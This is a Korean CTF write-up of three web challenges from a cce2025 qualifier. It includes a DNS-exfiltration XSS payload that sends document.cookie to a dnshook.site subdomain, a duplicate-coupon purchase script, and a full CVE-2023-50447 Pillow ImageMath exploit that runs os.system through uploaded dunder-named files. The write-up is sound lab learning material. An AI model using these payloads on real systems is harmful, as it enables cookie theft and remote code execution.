

import Callout from "@/components/Callout.astro"



예선 1위로 본선에 진출하게 되었다. <br/>
웹 6문제 중에서 3문제를 풀었다. 이번 글에서는 업솔빙한 문제를 포함해서 총 3~~4~~문제를 작성했다.

## Web/First Day (27 Solves, 250 Points)

꽤 재미있었던 문제다. 단순한 `XSS`지만 컨테이너의 아웃바운드 네트워크가 **UDP만 허용**되는 제약이있다.  
이 때문에 두 가지 방법을 생각할 수 있다. <br/>
1) **DNS data exfiltration** (DNS는 UDP 기반)  
2) `WebRTC`의 UDP 전송 활용

나는 1번을 택했다.


```python title="app.py" collapse={1-16, 52-63, 25-40} mark={20-24, 44-51}
import uuid
import threading
from flask import Flask, abort, render_template, request
from .bot import run_bot

app = Flask(__name__)
message_store = {}

@app.route("/")
def index():
    return render_template("login.html")

@app.route("/login", methods=["POST"])
def login():
    return render_template("login.html", error_message="로그인 실패: 오류 발생 시 관리자에게 문의해주세요.")

@app.route("/request", methods=["GET", "POST"]) 
def request_admin():
    if request.method == "POST":
        email = request.form.get("email", "").strip()
        message = request.form.get("message", "")

        msg_id = str(uuid.uuid4())
        message_store[msg_id] = {"email": email, "message": message}

        def _run_and_cleanup(mid: str) -> None:
            try:
                run_bot(mid)
            except Exception:
                pass
            finally:
                try:
                    message_store.pop(mid, None)
                except Exception:
                    pass

        threading.Thread(target=_run_and_cleanup, args=(msg_id,), daemon=True).start()

        return render_template("result.html", email=email)
    return render_template("request.html")

@app.route("/admin/mailbox/<msg_id>", methods=["GET"])
def admin_mailbox_item(msg_id: str):
    if request.remote_addr != "127.0.0.1":
        abort(403)

    if msg_id not in message_store:
        abort(404)
    
    item = message_store[msg_id]
    return render_template("mailbox.html", item=item)

@app.errorhandler(500)
def internal_error(error):
    return {"error": "Internal server error"}, 500

@app.errorhandler(404)
def not_found_error(error):
    return {"error": "Not found"}, 404

@app.errorhandler(403)
def forbidden_error(error):
    return {"error": "Forbidden"}, 403
```

위 코드를 보면 `/request` 엔드포인트에서 `email`과 `message`를 받아, 봇만 접근 가능한 `/admin/mailbox/<msg_id>`에서 `item.message`를 출력한다.

```html title="templates/mailbox.html" collapse={1-18} mark={25}
<!doctype html>
<html lang="ko">
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Intranet</title>
    <style>
        body { font-family: system-ui, -apple-system, Segoe UI, Roboto, Arial, sans-serif; background:#0b1220; color:#e5e7eb; margin:0; }
        .wrap { max-width: 760px; margin: 6vh auto; background: #111827; border:1px solid #1f2937; border-radius: 12px; box-shadow: 0 10px 30px rgba(0,0,0,.25); }
        .header { padding: 16px 20px; border-bottom:1px solid #1f2937; }
        .header h1 { margin:0; font-size: 18px; }
        .content { padding: 18px 20px 26px; }
        .meta { font-size: 12px; color:#9ca3af; margin-bottom: 12px; }
        .msg { background:#0f172a; border:1px solid #1e293b; border-radius:10px; padding:14px 16px; min-height:160px; }
        .msg pre { white-space: pre-wrap; word-break: break-word; }
        a.link-btn { display:inline-block; margin: 14px 0 0; padding:8px 10px; background:#0ea5e9; color:#fff; border-radius:8px; text-decoration:none; }
    </style>
</head>
<body>
    <div class="wrap">
        <div class="header"><h1>관리자 메일 보관함</h1></div>
        <div class="content">
            <div class="meta">From: {{ item.email }}</div>
            <div class="msg" id="msg">
                {{ item.message|safe }}
            </div>
            <a class="link-btn" href="/">메인으로</a>
        </div>
    </div>
</body>
</html>
```

위 HTML 템플릿은 `/admin/mailbox/<msg_id>` 렌더링에 사용된다. <br/>
`{{ item.message }}`라면 자동으로 이스케이프가 되지만 `{{ item.message|safe }}`로 `safe` 필터를 적용하면 **이스케이프가 비활성화**되므로 XSS가 발생한다. 
네트워크 아웃바운드가 UDP만 가능하니 **DNS data exfiltration XSS**를 해야한다.

`https://webhook.site`를 쓰면 어떤 **DNS 질의가 발생했는지** 확인할 수 있다. <br/>

아래 payload를 `message`에 넣으면 봇이 `document.cookie`를 읽어 `https://<encoded_flag>.<uuid>.dnshook.site`에 접근하려 시도하고, 그 과정에서 DNS 질의가 발생해 `<encoded_flag>`를 얻을 수 있다.  


```html title="exploit.html"
<script>
function toDnsSafeLabels(str, labelMaxLen = 63) {
  const bytes = new TextEncoder().encode(str);
  const alphabet = "abcdefghijklmnopqrstuvwxyz234567"; // RFC4648 base32
  let bits = 0, bitbuf = 0, out = "";

  for (const b of bytes) {
    bitbuf = (bitbuf << 8) | b;
    bits += 8;
    while (bits >= 5) {
      bits -= 5;
      out += alphabet[(bitbuf >> bits) & 31];
    }
  }
  if (bits > 0) out += alphabet[(bitbuf << (5 - bits)) & 31];

  const labels = [];
  for (let i = 0; i < out.length; i += labelMaxLen) {
    labels.push(out.slice(i, i + labelMaxLen));
  }
  return labels;
}
  window.open(
    `https://${toDnsSafeLabels(document.cookie).join('.')}.<uuid>.dnshook.site`
  );
</script>
```

## Web/Discount Coupon (31 Solves, 250 Points)

`Go`로 작성된 웹앱이라서 뭔가 어렵지 않을까 싶은 문제였는데, 가장 쉽게 출제된 웹 문제였다. <br/>
가입을 하면, `100,000₩`을 받는데 플래그는 `1,500,000₩`이여서 정상적으로는 살 수 없지만, <u>**할인 쿠폰 로직에서 취약점이 발생**</u>해 살 수 있다.


```go title="controllers/purchase.go" collapse={1-78, 100-149} mark={81-82, 96, 98}
package controllers

import (
	"discount_coupon/config"
	"discount_coupon/models"
	"net/http"
	"net/url"
	"os"
	"strconv"

	"github.com/gin-gonic/gin"
)

func ReturnF() string {
	data, err := os.ReadFile("/flag.txt")
	if err != nil {
		return "cce2025{sameple_flag}"
	}
	return string(data)
}

func Buy(c *gin.Context) {
	if err := c.Request.ParseForm(); err != nil {
		c.HTML(400, "error.html", gin.H{"status": 400})
		return
	}
	formValues := url.Values(c.Request.PostForm)

	pid, err := strconv.Atoi(formValues.Get("product_id"))
	if err != nil {
		c.HTML(400, "error.html", gin.H{"status": 400})
		return
	}

	if pid < 1 || pid > 3 {
		c.HTML(400, "error.html", gin.H{"status": 400})
		return
	}

	userID, exists := c.Get("userID")
	if !exists {
		c.Redirect(302, "/login")
		return
	}

	uid, ok := userID.(uint)
	if !ok {
		c.Redirect(302, "/login")
		return
	}

	tx := config.DB.Begin()
	if tx.Error != nil {
		c.HTML(500, "error.html", gin.H{"status": 500})
		return
	}

	defer func() {
		if r := recover(); r != nil {
			tx.Rollback()
			panic(r)
		}
	}()

	var user models.User
	if err := tx.Set("gorm:query_option", "FOR UPDATE").First(&user, uid).Error; err != nil {
		tx.Rollback()
		c.HTML(400, "error.html", gin.H{"status": 400})
		return
	}

	var prod models.Product
	if err := tx.First(&prod, pid).Error; err != nil {
		tx.Rollback()
		c.HTML(400, "error.html", gin.H{"status": 400})
		return
	}

	price := prod.Price
	originCouponStatus := user.CouponUsed
	if formValues.Has("coupon") {
		for range formValues["coupon"] {
			if user.CouponUsed {
				tx.Rollback()
				var prods []models.Product
				config.DB.Find(&prods)
				c.HTML(400, "products.html", gin.H{
					"msg":        "이미 쿠폰을 사용하셨습니다.",
					"products":   prods,
					"couponLeft": !user.CouponUsed,
					"balance":    user.Balance,
					"username":   user.Username,
				})
				return
			}
			price = price / 2
		}
		user.CouponUsed = true
	}

	if user.Balance < price {
		tx.Rollback()
		var prods []models.Product
		config.DB.Find(&prods)
		c.HTML(400, "products.html", gin.H{
			"msg":        "잔액이 부족합니다.",
			"products":   prods,
			"couponLeft": !originCouponStatus,
			"balance":    user.Balance,
			"username":   user.Username,
		})
		return
	}

	user.Balance -= price

	if err := tx.Save(&user).Error; err != nil {
		tx.Rollback()
		c.HTML(500, "error.html", gin.H{"status": 500})
		return
	}

	order := models.Order{UserID: uid, ProductID: uint(pid), FinalPrice: price}
	if err := tx.Create(&order).Error; err != nil {
		tx.Rollback()
		c.HTML(500, "error.html", gin.H{"status": 500})
		return
	}

	if err := tx.Commit().Error; err != nil {
		c.HTML(500, "error.html", gin.H{"status": 500})
		return
	}

	var flagMsg string
	if pid == 2 {
		flagMsg = ReturnF()
	} else {
		flagMsg = "멋진 선택이세요. 곧 배송될 예정입니다!"
	}

	c.HTML(http.StatusOK, "result.html", gin.H{
		"success": true,
		"product": prod.Name,
		"price":   price,
		"balance": user.Balance,
		"flag":    flagMsg,
	})
}
```

`form`에 `coupon` 필드가 존재하면 그 필드 값 배열을 순회하며 매 반복마다 `price = price / 2`가 적용된다.  
`user.CouponUsed`는 루프 안에서 매번 `true`로 설정하지 않고, 루프 종료 후 한 번만 `true`로 설정한다.  
따라서 `coupon`에 여러 개를 넣으면 중복으로 할인되어 구매가 가능해진다.


```py title=exploit.py
import httpx

c = httpx.Client(base_url="http://<ip>")

cred = {"username": "bmcyverbmcyver", "password": "bmbmbmcyver"}

r1 = c.post("/register", data=cred)
print(r1.text)

r2 = c.post("/login", data=cred)
print(r2.text)

r3 = c.post("/buy", data={"product_id": "2", "coupon": ["on", "on", "on", "on"]})
print(r3.text)
```

## Web/Photo Editing (8 Solves, 608 Points)

크게 어려운 문제는 아니였지만, 아마 코드가 복잡해서 솔버가 적지 않았을까 하는 문제다. <br/>
이 웹앱은 이미지를 올려서 합성하거나, 회백색으로 만들거나.... 다양한 이미지 편집을 할 수 있는 앱으로 [CVE-2023-50447](https://www.cve.org/CVERecord?id=CVE-2023-50447)를 활용하는 문제다.
은근 복잡해보이지만 [blog](https://duartecsantos.github.io/2024-01-02-CVE-2023-50447/)에 나온 **PoC**를 사용하면 쉽게 풀 수 있다.


```py title="board/views.py" collapse={1-39, 58-153, 162-183, 187-197, 208-226, 228-277} mark={201, 227, 157-161}
from flask import (
    render_template, redirect, url_for, request, flash,
    send_from_directory, abort
)
from flask_login import login_required, current_user
from . import board_bp
from ..models import db, User, Post, PostImage
from ..forms import PostForm
from ..utils import get_user_upload_folder, save_file_for_user, delete_user_file, save_pil_image_for_user


from .. import image_processor as ip
from werkzeug.utils import secure_filename
import os, logging, traceback, io, zipfile, shutil, json
import time
from PIL import Image

def get_user_by_uuid(user_uuid):
    return User.query.filter_by(user_uuid=user_uuid).first_or_404()
def get_user_post(user_uuid, post_id):
    user = get_user_by_uuid(user_uuid)
    post = Post.query.filter_by(id=post_id, user_id=user.id).first_or_404()
    return user, post
def check_user(user):
    if current_user.id != user.id:
        abort(403)
        
@board_bp.route("/")
def index():
    if not current_user.is_authenticated:
        return redirect(url_for('auth.login'))
    return redirect(url_for('board.user_board', user_uuid=current_user.user_uuid))

@board_bp.route("/<user_uuid>")
def user_board(user_uuid):
    user = get_user_by_uuid(user_uuid)
    posts = Post.query.filter_by(user_id=user.id).order_by(Post.id.desc()).all()
    return render_template('board/index.html', user=user, posts=posts)

@board_bp.route("/<user_uuid>/create", methods=['GET', 'POST'])
@login_required
def create_post(user_uuid):
    user = get_user_by_uuid(user_uuid)
    check_user(user)
    
    form = PostForm()
    if form.validate_on_submit():
        saved_names = []
        if form.images.data:
            for file in form.images.data:
                if file and file.filename:
                    try:
                        saved = save_file_for_user(file, user_uuid)
                        saved_names.append(saved)
                    except ValueError as e:
                        flash(f"파일 업로드 실패: {str(e)}", "error")
                        return render_template('board/create.html', form=form)
        post = Post(
            user_id=current_user.id,
            title=form.title.data,
            content=form.content.data
        )
        
        try:
            db.session.add(post)
            db.session.flush()

            for filename in saved_names:
                post_image = PostImage(filename=filename, post_id=post.id)
                db.session.add(post_image)
            
            db.session.commit()
            flash("게시글이 등록되었습니다.", "success")
            return redirect(url_for('board.user_board', user_uuid=user_uuid))
            
        except Exception as e:
            db.session.rollback()
            for name in saved_names:
                delete_user_file(name, user_uuid)
            flash("게시글 등록 중 오류가 발생했습니다.", "error")
            return render_template('board/create.html', form=form)
    
    return render_template('board/create.html', form=form)

@board_bp.route("/<user_uuid>/<int:post_id>")
def post_detail(user_uuid, post_id):
    """게시글 상세보기"""
    user, post = get_user_post(user_uuid, post_id)
    varnames = [chr(ord('a') + i) for i in range(len(post.images))]
    
    return render_template('board/detail.html', post=post, user=user, varnames=varnames)

@board_bp.route('/<user_uuid>/edit/<int:post_id>', methods=['GET', 'POST'])
@login_required
def edit_post(user_uuid, post_id):
    user, post = get_user_post(user_uuid, post_id)
    check_user(user)
    
    form = PostForm(obj=post)
    if form.validate_on_submit():
        deleted_filenames = request.form.get('deleted_images', '').split(',')
        for filename in deleted_filenames:
            if filename:
                img_to_delete = PostImage.query.filter_by(post_id=post.id, filename=filename).first()
                if img_to_delete:
                    delete_user_file(filename, user_uuid)
                    db.session.delete(img_to_delete)

        if form.images.data:
            for file in form.images.data:
                if file and file.filename:
                    try:
                        saved_filename = save_file_for_user(file, user_uuid)
                        new_image = PostImage(filename=saved_filename, post_id=post.id)
                        db.session.add(new_image)
                    except ValueError as e:
                        flash(f"파일 업로드 실패: {str(e)}", "error")
                        db.session.rollback()
                        return render_template('board/edit.html', form=form, post=post, user=user)
        
        post.title = form.title.data
        post.content = form.content.data
        
        try:
            db.session.commit()
            flash("게시글이 성공적으로 수정되었습니다.", "success")
            return redirect(url_for('board.post_detail', user_uuid=user_uuid, post_id=post.id))
        except Exception as e:
            db.session.rollback()
            flash(f"게시글 수정 중 오류가 발생했습니다: {str(e)}", "error")
    
    return render_template('board/edit.html', form=form, post=post, user=user)

@board_bp.route('/<user_uuid>/delete/<int:post_id>', methods=['POST'])
@login_required
def delete_post(user_uuid, post_id):
    """게시글 삭제"""
    user, post = get_user_post(user_uuid, post_id)
    check_user(user)

    for img in post.images:
        delete_user_file(img.filename, user_uuid)
    
    try:
        db.session.delete(post)
        db.session.commit()
        flash("게시글이 삭제되었습니다.", "success")
    except Exception as e:
        db.session.rollback()
        flash("게시글 삭제 중 오류가 발생했습니다.", "error")
    
    return redirect(url_for('board.user_board', user_uuid=user_uuid))

@board_bp.route('/uploads/<user_uuid>/<filename>')
def user_uploads(user_uuid, filename):
    """사용자별 파일 서빙"""
    if not filename or '..' in filename or '/' in filename or '\\' in filename:
        abort(404)
    user = get_user_by_uuid(user_uuid)
    user_folder = get_user_upload_folder(user_uuid)
    file_path = os.path.join(user_folder, filename)
    if not os.path.exists(file_path):
        abort(404)
    try:
        response = send_from_directory(user_folder, filename)
        response.headers['X-Content-Type-Options'] = 'nosniff'
        response.headers['Content-Disposition'] = 'inline'
        response.headers['Cache-Control'] = 'public, max-age=31536000'
        return response
    except Exception:
        abort(404)

@board_bp.route('/<user_uuid>/editor/<int:post_id>', methods=['GET'])
@login_required
def image_editor(user_uuid, post_id):
    user, post = get_user_post(user_uuid, post_id)
    check_user(user)

    if not post.images:
        flash("편집할 이미지가 없습니다.", "error")
        return redirect(url_for('board.post_detail', user_uuid=user_uuid, post_id=post_id))
    return render_template('board/image_editor.html', post=post, user=user)

@board_bp.route('/<user_uuid>/transform/<int:post_id>', methods=['POST'])
@login_required
def transform_image(user_uuid, post_id):
    user, post = get_user_post(user_uuid, post_id)
    check_user(user)

    filenames = request.form.getlist('filenames')
    transform_name = request.form.get('transform_name', 'grayscale')
    expression = request.form.get('expression')

    if not filenames:
        flash("최소 한 장의 이미지를 선택해주세요.", "error")
        return redirect(url_for('board.image_editor', user_uuid=user_uuid, post_id=post_id))

    try:
        options = {}
        if transform_name == 'custom_formula':
            options['expression'] = expression
        
            auto_variables = {}
            for i, fname in enumerate(filenames):
                var_name = chr(ord('a') + i) 
                auto_variables[var_name] = fname
            options['variables'] = auto_variables

        if transform_name == 'brightness':
            try:
                factor = float(request.form.get('brightness_factor', 1.5))
                options['factor'] = factor
            except (ValueError, TypeError):
                flash("유효한 밝기 값을 입력해주세요.", "error")
                return redirect(url_for('board.image_editor', user_uuid=user_uuid, post_id=post_id))

        elif transform_name == 'rotate':
            try:
                angle = int(request.form.get('rotate_angle', 90))
                if angle not in [90, 180, 270]:
                    raise ValueError("유효한 회전 각도를 선택해주세요 (90, 180, 270). ")
                options['angle'] = angle
            except (ValueError, TypeError):
                flash("유효한 회전 각도를 선택해주세요 (90, 180, 270).", "error")
                return redirect(url_for('board.image_editor', user_uuid=user_uuid, post_id=post_id))

        transformed_images = ip.apply_transform(transform_name, filenames, user_uuid, options)

        if not transformed_images:
            flash("이미지 변환에 실패했습니다.", "error")
            return redirect(url_for('board.image_editor', user_uuid=user_uuid, post_id=post_id))

        saved_transformed_filenames = []
        for img in transformed_images:
            if not isinstance(img, Image.Image):
                saved_transformed_filenames.append('uploads/Error.png')
                continue
            try:
                original_filename_for_ext = filenames[0] if filenames else None
                saved_filename = save_pil_image_for_user(img, user_uuid, original_filename_for_ext)
                saved_transformed_filenames.append(saved_filename)
            except ValueError as e:
                flash(f"변환된 이미지 저장 실패: {str(e)}", "error")
                return redirect(url_for('board.image_editor', user_uuid=user_uuid, post_id=post_id))

        return render_template(
            'board/transform_preview.html',
            user=user,
            post=post,
            transformed_image_filenames=saved_transformed_filenames,
            original_filenames=filenames,
            transform_name=transform_name,
            expression=expression
        )

    except ValueError as e:
        logging.error(f"이미지 처리 중 오류: {e}\n{traceback.format_exc()}")
        flash(f"오류가 발생했습니다: {str(e)}", "error")
        return redirect(url_for('board.image_editor', user_uuid=user_uuid, post_id=post_id))

@board_bp.route('/download_processed_image/<filename>')
@login_required
def download_processed_image(filename):
    user_uuid = current_user.user_uuid
    user_folder = get_user_upload_folder(user_uuid)

    if not filename or '..' in filename or '/' in filename or '\\' in filename:
        abort(404)

    file_path = os.path.join(user_folder, filename)
    if not os.path.exists(file_path):
        abort(404)

    try:
        return send_from_directory(user_folder, filename, as_attachment=True, download_name=filename)
    except Exception:
        abort(404)
```

`/board/<user_uuid>/create`에서 이미지 여러개를 한번에 올릴 수 있다. 
이때, `utils.py`의 `save_file_for_user`함수를 사용하게 되는데 익스에서 중요한 부분이라 자세한 부분은 후술하겠다. <br/>
그리고, `/board/uploads/<user_uuid>/<filename>` 여기서 `<user_uuid>`에 있는 파일을 **<u>검증 없이</u> 다운** 받을 수 있다. 
마지막으로, `/board/<user_uuid>/transform/<int:post_id>`에서 사진들을 편집할 수 있는데 [CVE-2023-50447](https://www.cve.org/CVERecord?id=CVE-2023-50447) 취약점이 여기서 터진다.
자세한 부분은 마찬가지로 후술한다.

```py title="utils.py" collapse={1-57, 82-133} mark={64-66}
import os
import uuid
import io
import base64
import logging
from flask import current_app
from werkzeug.utils import secure_filename
from PIL import Image, ImageMath

ALLOWED_EXTENSIONS = {'png', 'jpg', 'jpeg', 'gif'}
ALLOWED_MIME_TYPES = {
    'image/png', 'image/jpeg', 'image/jpg', 
    'image/gif'
}
MAX_FILE_SIZE = 10 * 1024 * 1024  # 10MB

def allowed_file(filename):
    if not filename or '.' not in filename:
        return False
    ext = filename.rsplit('.', 1)[1].lower()
    return ext in ALLOWED_EXTENSIONS

def validate_file(file_storage):
    if not file_storage or not file_storage.filename:
        return False, "파일이 선택되지 않았습니다."
    filename = secure_filename(file_storage.filename)
    if not filename:
        return False, "유효하지 않은 파일명입니다."

    if '.' in filename:
        ext = filename.rsplit('.', 1)[1].lower()
        if ext not in ALLOWED_EXTENSIONS:
            return False, f"허용되지 않는 확장자입니다. ({', '.join(ALLOWED_EXTENSIONS)}만 허용)"
    try:
        file_storage.seek(0)  
        file_data = file_storage.read()
        file_size = len(file_data)
        file_storage.seek(0)
        
        if file_size > MAX_FILE_SIZE:
            return False, "파일 크기가 너무 큽니다. (최대 10MB)"
        
        if file_size == 0:
            return False, "빈 파일은 업로드할 수 없습니다."
            
    except Exception as e:
        return False, f"파일 검증 중 오류가 발생했습니다: {str(e)}"
    
    return True, "유효한 파일입니다."

def get_user_upload_folder(user_uuid):
    """사용자별 업로드 폴더 경로 반환"""
    base_dir = os.path.dirname(os.path.dirname(os.path.abspath(__file__)))
    user_folder = os.path.join(base_dir, 'static', 'uploads', 'board', user_uuid)
    os.makedirs(user_folder, exist_ok=True)
    return user_folder

def save_file_for_user(file_storage, user_uuid):
    is_valid, message = validate_file(file_storage)
    filename = file_storage.filename
    if not is_valid:
        raise ValueError(message)

    if '.' in filename:
        ext = filename.rsplit('.', 1)[1].lower()
        filename = f"{uuid.uuid4().hex}.{ext}"
    
    user_folder = get_user_upload_folder(user_uuid)
    file_path = os.path.join(user_folder, filename)
    
    try:
        file_storage.save(file_path)
        if not os.path.exists(file_path) or os.path.getsize(file_path) == 0:
            raise ValueError("파일이 올바르게 저장되지 않았습니다.")
            
    except Exception as e:
        if os.path.exists(file_path):
            os.remove(file_path)
        raise ValueError(f"파일 저장 실패: {str(e)}")
    
    return filename

def delete_user_file(filename, user_uuid):
    if not filename:
        return 
    try:
        user_folder = get_user_upload_folder(user_uuid)
        file_path = os.path.join(user_folder, filename)
        if os.path.exists(file_path):
            os.remove(file_path)
    except Exception:
        pass

def save_pil_image_for_user(pil_image, user_uuid, original_filename=None):

    user_folder = get_user_upload_folder(user_uuid)
    ext = 'png'
    if pil_image.mode == 'I':
        ext = 'png'
    elif ext in ['jpg', 'jpeg'] and pil_image.mode != 'RGB':
        pil_image = pil_image.convert('RGB')
    
    unique_filename = f"{uuid.uuid4().hex}.{ext}"
    file_path = os.path.join(user_folder, unique_filename)

    try:
        pil_image.save(file_path)
    except Exception as e:
        raise ValueError(f"PIL Image 저장 실패: {str(e)}")
    
    return unique_filename

def get_user_file_url(filename, user_uuid):
    if not filename:
        return None
    return f"/board/uploads/{user_uuid}/{filename}"

def get_processed_images(filenames, user_uuid):
    upload_folder = get_user_upload_folder(user_uuid)
    images = []
    for fname in filenames:
        file_path = os.path.join(upload_folder, fname)
        try:
            img = Image.open(file_path).convert('RGB')
            images.append(img)
        except IOError as e:
            logging.error(f"Error opening image file {file_path}: {e}")
            continue

    if not images:
        return []

    return images
```

[CVE-2023-50447](https://www.cve.org/CVERecord?id=CVE-2023-50447)를 트리거하려면 이름이 `__class__`, `__bases__`, `__subclasses__`, `load_module`, `system`인 이미지 5개를 업로드하면 된다. 
업로드 시 파일명에 `.`(확장자)이 포함되면 랜덤 이름으로 바뀌지만, `.`이 없으면 원래 이름이 유지된다. 
따라서 PoC와 동일하게 확장자를 제거한 채 업로드하면 그대로 익스플로잇 조건을 맞출 수 있다.

```py title="image_processor.py" collapse={1-6, 8-79} mark={86}
import os
import uuid

from PIL import Image, ImageFilter, ImageOps, ImageMath, ImageEnhance
from app.utils import get_processed_images

def apply_transform(transform_name, filenames, user_uuid, options=None):
    """Apply a specific transformation to images and return PIL Image objects."""
    images = get_processed_images(filenames, user_uuid)
    if not images:
        return []
    if options is None:
        options = {}

    if transform_name == 'rotate':
        angle = options.get('angle', 90)
        return [img.rotate(angle, expand=True) for img in images]
    
    elif transform_name == 'composite':
        if len(images) != 2:
            raise ValueError("이미지 합성은 반드시 2개의 이미지를 선택해야 합니다.")
        img1 = images[0]
        img2 = images[1].resize(img1.size)
        return [Image.blend(img1, img2, alpha=0.5)]

    elif transform_name == 'append':
        num_images = len(images)
        if num_images == 0:
            raise ValueError("이미지를 선택해주세요.")
        elif num_images > 4:
            raise ValueError("이미지 조합은 최대 4장까지만 지원합니다.")

        if num_images == 1:
            return images 
        elif num_images <= 3:
            min_width = min(img.width for img in images)
            resized_images = [img.resize((min_width, int(img.height * min_width / img.width))) for img in images]
            
            total_height = sum(img.height for img in resized_images)
            dst = Image.new('RGB', (min_width, total_height))
            
            y_offset = 0
            for img in resized_images:
                dst.paste(img, (0, y_offset))
                y_offset += img.height
            return [dst]
        elif num_images == 4:
            min_size = min(img.width for img in images), min(img.height for img in images)
            resized_images = [img.resize(min_size) for img in images]
            
            dst = Image.new('RGB', (min_size[0] * 2, min_size[1] * 2))
            dst.paste(resized_images[0], (0, 0))
            dst.paste(resized_images[1], (min_size[0], 0))
            dst.paste(resized_images[2], (0, min_size[1]))
            dst.paste(resized_images[3], (min_size[0], min_size[1]))
            return [dst]

    elif transform_name == 'contour':
        return [img.filter(ImageFilter.CONTOUR) for img in images]

    elif transform_name == 'solarize':
        threshold = options.get('threshold', 128)
        return [ImageOps.solarize(img, threshold=threshold) for img in images]

    elif transform_name == 'brightness':
        factor = options.get('factor', 1.5)
        return [ImageEnhance.Brightness(img).enhance(factor) for img in images]

    elif transform_name == 'grayscale':
        return [img.convert('L') for img in images]

    elif transform_name == 'sepia':
        sepia_matrix = [
            0.393, 0.769, 0.189, 0,
            0.349, 0.686, 0.168, 0,
            0.272, 0.534, 0.131, 0
        ]
        return [img.convert("RGB", sepia_matrix) for img in images]

    elif transform_name == 'custom_formula':
        exp = options.get('expression')
        if not exp:
            raise ValueError("Custom formula requires an 'expression'.")
        env = { fname: img for fname, img in zip(filenames, images) }
        try:
            result = ImageMath.eval(exp, env)
            return [result]
        except Exception as e:
            return [None]
    else:
        raise ValueError(f"Unknown transformation: {transform_name}")
```

마지막으로 [CVE-2023-50447](https://www.cve.org/CVERecord?id=CVE-2023-50447)가 터지는 지점에 대해서 살펴 볼 것이다. <br/>
일단, `board/views.py`에서 살펴보았듯이 `expression`은 `form`으로 받아올 수 있다. <br/>
그리고 이미지들도 `utils.py`에서 살펴보았듯이 `.`를 포함하지 않고 올린다면 <u>파일 이름이 그대로</u> 올라간다는 것을 알았다.


이제 `expression`만 `().__class__.__bases__[0].__subclasses__()[104].load_module('os').system('cp /flag /prob/static/uploads/board/{uuid}/flag.txt'){:py}`으로 적용해주고 파일만 다운받으면 flag를 얻을 수 있다.
<Callout title="subclass의 인덱스에 대해" defaultOpen={false} overideTitle={true}>
여러가지 요인으로 `subclass` 인덱스가 변할 수 있는데, 이는 무작위 대입 공격을 통해 얻을 수 있다.
</Callout>

```py title="exploit.py"
import httpx
from bs4 import BeautifulSoup

c = httpx.Client(
    base_url="http://<ip>:5000/",
    # base_url="http://localhost:5000"
)

csrf_token = BeautifulSoup(c.get("/auth/register").text, "html.parser").find(
    "input", {"name": "csrf_token"}
)["value"]

id = "BmCyv3r"
pw = "BmCyv3rBmC123yv3rBmCyv3rBmCyv3r"

c.post(
    "/auth/register",
    data={
        "username": id,
        "password": pw,
        "confirm": pw,
        "csrf_token": csrf_token,
        "submit": "회원가입",
    },
    follow_redirects=False,
)

c.post(
    "/auth/login",
    data={
        "username": id,
        "password": pw,
        "csrf_token": csrf_token,
        "submit": "로그인",
    },
    follow_redirects=False,
)

r1 = c.get("/board/", follow_redirects=False)
uuid = r1.headers.get("Location").rsplit("/", 1)[-1]
print(uuid)

r2 = c.post(
    f"/board/{uuid}/create",
    data={
        "title": "Test Title",
        "content": "Test Content",
        "submit": "등록",
        "csrf_token": csrf_token,
    },
    files=[
        ("images", ("__class__", open("img.png", "rb"), "image/png")),
        ("images", ("__bases__", open("img.png", "rb"), "image/png")),
        ("images", ("__subclasses__", open("img.png", "rb"), "image/png")),
        ("images", ("load_module", open("img.png", "rb"), "image/png")),
        ("images", ("system", open("img.png", "rb"), "image/png")),
    ],
    follow_redirects=True,
)
post_id = (
    BeautifulSoup(r2.text, "html.parser")
    .select_one(
        "body > div > div.post-grid > article:nth-child(1) > div.post-header > h3 > a"
    )["href"]
    .rsplit("/")[-1]
)
print(post_id)

r3 = c.post(
    f"/board/{uuid}/transform/{post_id}",
    data={
        "transform_name": "custom_formula",
        "filenames": [
            "__class__",
            "__bases__",
            "__subclasses__",
            "load_module",
            "system",
        ],
        "expression": f"().__class__.__bases__[0].__subclasses__()[104].load_module('os').system('cp /flag /prob/static/uploads/board/{uuid}/flag.txt ')",
        "csrf_token": csrf_token,
    },
)

r4 = c.get(f"/board/uploads/{uuid}/flag.txt")
print(r4.text)
```

## Web/Minitalk (Upsolving)

곧 정리해 추가할 예정이다 :D